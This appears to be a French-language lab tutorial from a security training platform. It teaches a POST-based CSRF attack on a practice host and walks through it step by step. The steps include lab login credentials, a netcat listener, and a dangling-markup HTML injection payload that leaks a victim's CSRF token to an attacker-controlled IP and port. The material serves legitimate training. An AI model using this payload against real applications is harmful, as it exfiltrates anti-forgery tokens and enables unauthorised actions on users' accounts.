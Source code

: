 Cross-Site Request Forgery (basée sur POST)
===========================================

La grande majorité des applications effectuent aujourd'hui des actions via des requêtes POST. Par la suite, les jetons CSRF résideront dans les données POST. Attaquons une telle application et essayons de trouver un moyen de divulguer le jeton CSRF afin de pouvoir monter une attaque CSRF.

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur l' `Reset Target`icône . Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'application cible et suivez-la. N'oubliez pas de configurer le vhost ( `csrf.htb.net`) spécifié pour accéder à l'application.

Accédez `http://csrf.htb.net`à l'application et connectez-vous à l'aide des informations d'identification ci-dessous :

-   Courriel : heavycat106
-   Mot de passe : rocknrol

Il s'agit d'un compte que nous avons créé pour examiner les fonctionnalités de l'application.

Après vous être authentifié en tant qu'utilisateur, vous remarquerez que vous pouvez supprimer votre compte. Voyons comment voler le jeton CSRF de l'utilisateur en exploitant une vulnérabilité d'injection HTML/XSS.

Cliquez sur le bouton "Supprimer". Vous serez redirigé vers`/app/delete/<your-email>`

![image](https://academy.hackthebox.com/storage/modules/153/36.png)

Notez que l'e-mail est reflété sur la page. Essayons de saisir du code HTML dans la valeur *de l'e-mail* , par exemple :

Code : html

```
<h1>h1<u>underline<%2fu><%2fh1>

```

![image](https://academy.hackthebox.com/storage/modules/153/37.png)

Si vous inspectez la source ( `Ctrl+U`), vous remarquerez que notre injection se produit avant un `single quote`. Nous pouvons en abuser pour divulguer le jeton CSRF.

![image](https://academy.hackthebox.com/storage/modules/153/39.png)

Commençons par demander à Netcat d'écouter sur le port 8000, comme suit.

```
dsgsec@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...

```

Nous pouvons maintenant obtenir le jeton CSRF en envoyant la charge utile ci-dessous à notre victime.

Code : html

```
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f

```

Tout en restant connecté en tant que Julie Rogers, ouvrez un nouvel onglet et visitez `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. Vous remarquerez qu'une connexion est établie qui fuit le jeton CSRF.

![image](https://academy.hackthebox.com/storage/modules/153/40.png)

Étant donné que l'attaque a réussi contre notre compte de test, nous pouvons faire de même contre n'importe quel compte de notre choix.

Nous vous rappelons que cette attaque ne nécessite pas que l'attaquant réside dans le réseau local. L'injection HTML est utilisée pour divulguer le jeton CSRF de la victime à distance !

Ensuite, nous verrons comment vous pouvez enchaîner XSS et CSRF pour attaquer la session d'un utilisateur.
